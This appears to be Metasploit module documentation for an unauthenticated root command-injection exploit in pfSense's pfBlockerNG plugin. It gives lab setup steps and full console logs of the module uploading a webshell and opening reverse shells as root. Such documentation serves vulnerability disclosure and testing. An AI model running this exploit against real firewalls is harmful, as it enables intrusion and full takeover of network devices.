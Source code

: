 ## Vulnerable Application

### Description
This module exploits a vulnerability in the pfSense plugin, pfBlockerNG that allows remote unauthenticated
attackers to execute execute arbitrary OS commands as root via shell meta characters in the HTTP Host header.
Versions <= 2.1.4_26 are vulnerable. Note that version 3.x is unaffected.

### Setup
Download the pfSense image:

`wget https://atxfiles.netgate.com/mirror/downloads/pfSense-CE-2.5.2-RELEASE-amd64.iso.gz`

To obtain a vulnerable copy of the pfBlockerNG plugin, you can build it from source from the [official pfSense github
repo](https://github.com/pfsense/FreeBSD-ports/tree/devel/net/pfSense-pkg-pfBlockerNG), or it can be downloaded from
the following link:

`wget https://files01.netgate.com/pkg/pfSense_plus-v21_09_aarch64-pfSense_plus_v21_09/All/pfSense-pkg-pfBlockerNG-2.1.4_26.pkg`

Install the .iso file in your favorite virtualizing software. You may need to use the `UEFI` or `BIOS` installation
options to install the software correctly. For testing, `BIOS` was used. You may also need to set the WAN settings.
For this you can just use the default or set it to `hn0` which should also be the default, and this will work fine for
testing purposes.

Once installed pfSense will start and you can access the web GUI by navigating to `https://<pfSense-IP-address>/`.
Sign into the application with username: `admin` password: `pfsense`

Now at the top of the screen select System -> Advanced. Scroll down to the section named Secure Shell and tick the box
beside `Enable Secure Shell`. Then click the `Save` button at the the bottom of the page to apply the changes.

From your host machine we can now transfer the vulnerable package to the pfSense VM using `scp`

`scp pfSense-pkg-pfBlockerNG-2.1.4_26.pkg root@<pfSense-IP-address>:/`

(the root password of the VM will be the same as the admin password: `pfsense`)

Install the vulnerable package with: `pkg install pfSense-pkg-pfBlockerNG-2.1.4_26.pkg`

## Options

### WEBSHELL_NAME

This is the name of the webshell that will get uploaded to the pfsense target sans the ".php" ending.
If left unset the file name will be randomly generated.

## Verification Steps

1. Start msfconsole
1. `use unix/http/pfsense_pfblockerng_webshell`
1. Set the `RHOST` and `LHOST` options
1. `exploit`
1. Receive a shell as the `root` user

## Scenarios
### pfSense 2.5.2-RELEASE with pfSense-pkg-pfBlockerNG-2.1.4_26.pkg installed
```
msf6 > use exploit/unix/http/pfsense_pfblockerng_webshell
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set RHOSTS 172.23.40.111
RHOSTS => 172.23.40.111
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set LHOST 172.23.47.143
LHOST => 172.23.47.143
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set LPORT 4453
LPORT => 4453
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set SRVPORT 8383
SRVPORT => 8383
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > show options

Module options (exploit/unix/http/pfsense_pfblockerng_webshell):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         172.23.40.111    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          443              yes       The target port (TCP)
   SRVHOST        0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to
                                              listen on all addresses.
   SRVPORT        8383             yes       The local port to listen on.
   SSL            true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   VHOST                           no        HTTP server virtual host
   WEBSHELL_NAME                   no        The name of the uploaded webshell sans the ".php" ending. This value will be randomly generated if left unse
                                             t.


Payload options (bsd/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  172.23.47.143    yes       The listen address (an interface may be specified)
   LPORT  4453             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   BSD Dropper


msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > run

[*] Started reverse TCP handler on 172.23.47.143:4453
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading shell...
[*] Webshell name is: zFOOjmPXX.php
[+] The target is vulnerable.
[*] Executing BSD Dropper for bsd/x64/shell_reverse_tcp
[*] Using URL: http://172.23.47.143:8383/ITtfiF
[*] Client 172.23.40.111 (curl/7.76.1) requested /ITtfiF
[*] Sending payload to 172.23.40.111 (curl/7.76.1)
[+] Deleted /usr/local/www/zFOOjmPXX.php
[*] Command shell session 1 opened (172.23.47.143:4453 -> 172.23.40.111:30301) at 2022-10-12 19:08:21 -0500

id
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

uid=0(root) gid=0(wheel) groups=0(wheel)
whoami
root
uname -a
FreeBSD pfSense.home.arpa 12.2-STABLE FreeBSD 12.2-STABLE fd0f54f44b5c(RELENG_2_5_0) pfSense  amd64
exit
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set TARGET 0
TARGET => 0
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > show options

Module options (exploit/unix/http/pfsense_pfblockerng_webshell):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         172.23.40.111    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          443              yes       The target port (TCP)
   SRVHOST        0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to
                                              listen on all addresses.
   SRVPORT        9933             yes       The local port to listen on.
   SSL            true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   VHOST                           no        HTTP server virtual host
   WEBSHELL_NAME                   no        The name of the uploaded webshell sans the ".php" ending. This value will be randomly generated if left unse
                                             t.


Payload options (cmd/unix/reverse_openssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.23.47.143    yes       The listen address (an interface may be specified)
   LPORT  4545             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > run

[*] Started reverse double SSL handler on 172.23.47.143:4545
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading shell...
[*] Webshell name is: jIuhcpoe.php
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_openssl
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo XqZbye7zG7tGBVWc;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "XqZbye7zG7tGBVWc\n"
[*] Matching...
[*] A is input...
[+] Deleted /usr/local/www/jIuhcpoe.php
[*] Command shell session 2 opened (172.23.47.143:4545 -> 172.23.40.111:33941) at 2022-10-12 19:22:13 -0500

id
uid=0(root) gid=0(wheel) groups=0(wheel)
whoami
root
```

